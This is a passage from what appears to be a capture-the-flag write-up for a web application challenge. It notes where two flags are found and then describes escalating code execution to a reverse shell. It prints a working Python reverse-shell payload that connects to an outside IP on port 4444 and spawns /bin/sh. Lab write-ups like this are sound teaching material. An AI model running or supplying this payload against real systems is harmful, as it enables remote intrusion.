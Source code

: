 FLAG4 is visible on the page. FLAG3 can be found in the response headers if the server indentifies the token as belonging to an admin, but this flag can be read later.

## Breaking in - FLAG5 and FLAG6

I had the ability to execute code on the target machine - the next logical step was to turn that to a reverse shell. I first ran a simple python script to see if I could execute system commands:

<div>
<center><img src="/images/pa-webapp-ctf/rce.png"></center>
</div>

I used [ShellGenerator](https://shellgenerator.github.io) to generate a command for my reverse shell. The payload you choose doesn't matter much as long as it works - for example, I took the python payload and formatted it.

{% highlight python %}
import socket;
import subprocess;
import os;

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.152.72.2",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p = subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

